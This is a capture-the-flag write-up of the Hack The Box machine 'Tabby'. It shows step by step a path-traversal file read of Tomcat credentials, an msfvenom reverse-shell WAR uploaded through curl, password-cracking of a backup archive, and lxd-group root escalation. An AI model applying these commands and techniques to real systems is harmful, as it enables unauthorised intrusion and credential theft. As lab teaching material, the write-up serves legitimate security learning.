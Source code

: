 /*---
permalink: /portfolio/htb_linux/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Tabby
---*/

# Linux Hack The Box Writeup for Tabby

## Enumeration

First, we run the old trusty nmap:

```bash
sudo nmap 10.10.10.194 -p 80,8080,22 -sC -sV -oN nmap.txt
```

Before this command I ran `nmap 10.10.10.194 -p-` to get the ports 22,80 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`. 

With the result:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we can see that this box has is running a ssh-server, a apache webserver and a tomcat instance. The versions are all latest, so there is nothing to find there. Let's take a look at the webpages.

We start at port 80, or the "normal" webpage.

![webpage](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/webpage.png)

It looks like a page from a hosting company. Let's fuzz it some more!

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.194/ -x html,php,txt
```

Here we use gobuster to find all the webpages on the server. The wordlist is dirb's common.txt, a good fuzzing list that isn't very long. Most pages can be found with this list. Then we state the website and last we state the file extensions it should look for.

This is the result (minus `.htaccess` pages).

```bash
/assets (Status: 301)
/favicon.ico (Status: 200)
/files (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/news.php (Status: 200)
/Readme.txt (Status: 200)
/server-status (Status: 403)
```

A `readme.txt` is often pretty interesting.

![readme.txt](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/readme.png)

Mmmmhh, bummer. No version numbers or update log. We are dealing with a `html/css` one-pager. Alright, let's look at the other pages. The only other non-default is news.php.

![new](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/news.png)

Okay, a page that apologises for a recent databreach, ironic. Let's take a better look at that url:

```url
http://10.10.10.194/news.php?file=statement
```

File equals statement? That looks like a arbitrary file read vulnerability to me. Let's test it with a file that everyone should be able to access:

```url
http://10.10.10.194/news.php?file=../../../../etc/passwd
```

![read](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/read.png)

Terrific, we can read files. I brought the request over to burp-suite for easier checking and checked whether there are any limits on the read, by checking the `news.php` file:

![burp](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/burp.png)

Alright, before we continue, let's see why we can read files. The php file get the GET-parameter named file. Then it puts `files/` in front of it and reads the file. Why can we read files outside of the folder `files`? `fopen` reads a file from a given path, without any checks or sanitation. If we back out of the folder `files` with `..` we are in the folder with `news.php`, probaly in the folder `/var/www/html` as this is the default path for Apache. So, if we keep going back we reach the system's root and we can go to any path from there. I choose to check `/etc/passwd` because this file is almost always there and readable for all users.

So we can read files without limits. Great! But we dont't really have a lot to check right now, let's check the tomcat page first.

![tomcat_main](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/tomcat_main.png)

Basic Tomcat installation, let's check the admin-pages.

![tomcat_login](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/tomcat_login.png)

Ofcourse, we need a password, and we don't have one, *yet*. We can abuse the file-read of the webpage to read the passwords of Tomcat!

It took some fuzzing, because the Tomcat config foler is not installed in the default folder, but we can read `/usr/share/tomcat9/etc/tomcat-users.xml`.

![tomcat-users](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/tomcat-users.png)

Alright, so now with this user we can log into Tomcat. However, looking at the roles of the user, we can only use the gui of admin. On the admin-page you can manage virtual hosts. Something we don't want or need. We need to access the manager system so we can upload a shell. We can, but not with the easy gui, we only have text-rights. This means we need to bring our shell only through a HTTP-request.

## Exploitation

First, we generate our payload, Tomcat uses war files to bring it's webpages online, so we make a war-shell using `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=8090 -f war > shell.war
```

Then we start our netcat listener to catch the shell once it is uploaded:

```bash
nc -lnvp
```

Then we upload the payload to the server using our new credentials.

![postman](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/postman.png)

Here I am using postman to upload the .war file, but we can als use a curl command (generated by postman):

```bash
curl --location --request PUT 'http://10.10.10.194:8080/manager/text/deploy?path=/shell&update=true' \
--header 'Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==' \
--form 'file=@/home/kali/htb/tabby/shell.war'
```

Then we just navigate to `http://10.10.10.194:8080/shell` and we catch a reverse shell!

I then always use some simple steps to upgrade the shell to a proper stty, so I can use tab and Ctrl+C.

![shell](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/shell.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
enter 2x
export TERM=xterm
```

## Enumeration 2

After some searching and running [LinPeass](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find that there are some more interesting files in `/var/www/html/files`. A zip archive to be exact. It appears the be a back-up of some sort. After trying to extract it, it seems to be password-protected. I moved it over to my local machine and ran `fcrackzip` to find it's password.

```bash
fcrackzip --u -D -p '/usr/share/wordlists/rockyou.txt' out.zip
```

![crack](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/crack.png)

And the password is `admin@it`. The archive itself contains nothing of interest, but let's try the new password and the user `ash`.

![user](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/user.png)

## Exploitation 2

So, now let's get to root. I forgot to screenshot this, but the user ash is in the `lxd` group. Lxd is a technology similair to docker, and if you're in this group, you can spawn a root-shell. Using [this website](https://www.exploit-db.com/exploits/46978) I build the image on my local machine and transfered it to my victim. Then I executed this script, which creates the container with an unsafe flag and connects the file-systems. This way you have a root shell on the container, but you can also read files on the host. This way we get the root flag!

![root](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/root.png)

And thats it!

